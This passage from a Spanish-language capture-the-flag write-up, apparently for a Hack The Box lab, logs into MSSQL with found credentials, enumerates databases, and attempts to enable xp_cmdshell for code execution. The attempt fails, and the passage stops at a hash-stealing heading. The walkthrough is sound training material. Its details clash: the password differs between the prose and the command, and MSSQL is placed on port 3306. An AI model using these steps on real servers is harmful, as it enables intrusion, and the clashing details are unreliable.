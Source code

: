 ## Initial Foothold

### MSSQL Enumeration

Dado que el servicio de `MSSQL` se encuentra expuesto por el puerto `3306`, probaremos de autenticarnos con las credenciales obtenidas `PublicUser/GuestUserCanWrite1`.&#x20;

Comprobamos el acceso al servicio y realizamos una enumeración de las bases de datos presentes, en el cual no obtenemos ninguna base de datos que podamos extraer información útil.

```bash
❯ impacket-mssqlclient sequel.htb/'PublicUser':'GuestUserCantWrite1'@10.10.11.202 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> enum_db;
name     is_trustworthy_on   
------   -----------------   
master                   0   

tempdb                   0   

model                    0   

msdb                     1  
```

### Attempting to enable xp\_cmdshell component in MSSQL \[FAILED]

Probaremos de habilitar el compontente `xp_cmdshell` para tratar de obtener una vía potencial de lograr ejecutar comandos arbitrarios en el sistema. En este caso, se nos muestra que no disponemos del acceso necesario para habilitar el componente y lograr obtener finalmente el `RCE`.

```bash
SQL (PublicUser  guest@master)> EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
ERROR(DC\SQLMOCK): Line 105: User does not have permission to perform this action.
ERROR(DC\SQLMOCK): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC\SQLMOCK): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC\SQLMOCK): Line 1: You do not have permission to run the RECONFIGURE statement.
```

### MSSQL Hash Stealing \[Net-NTLMv2] (xp\_dirtree)
